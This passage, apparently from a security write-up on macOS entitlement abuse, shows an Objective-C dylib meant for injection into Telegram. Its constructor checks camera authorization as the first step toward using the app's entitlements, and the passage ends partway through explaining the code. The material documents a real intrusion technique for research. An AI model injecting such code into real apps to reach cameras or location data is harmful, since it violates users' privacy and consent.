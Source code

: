     
- retrieve the device's current location using GPS or other location services.
    


And the same goes for the other `Entitlements`. Now it's the time to start exploiting this and showcase for each one of

the `Entitlement`. Before we start we will need to use the `launch agent` to bypass the restrictions. But fIRST Let's see what

will happen if we Injected the following `DyLib`:


```
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

@interface CameraAccessChecker : NSObject

+ (BOOL)hasCameraAccess;

@end

@implementation CameraAccessChecker

+ (BOOL)hasCameraAccess {
    AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeVideo];
    if (status == AVAuthorizationStatusAuthorized) {
        NSLog(@"[+] Access to camera granted.");
        return YES;
    } else {
        NSLog(@"[-] Access to camera denied.");
        return NO;
    }
}

@end

__attribute__((constructor))
static void telegram(int argc, const char **argv) {
    [CameraAccessChecker hasCameraAccess];
}
```


So, This `DyLib` will check if we have access to the camera or not. Let's explain the code.


```
#import <Foundation/Foundation.h> 
#import <AVFoundation/AVFoundation.h>
```


Here we imported the required frameworks. `Foundation` provides fundamental classes and data types, while `AVFoundation` providing
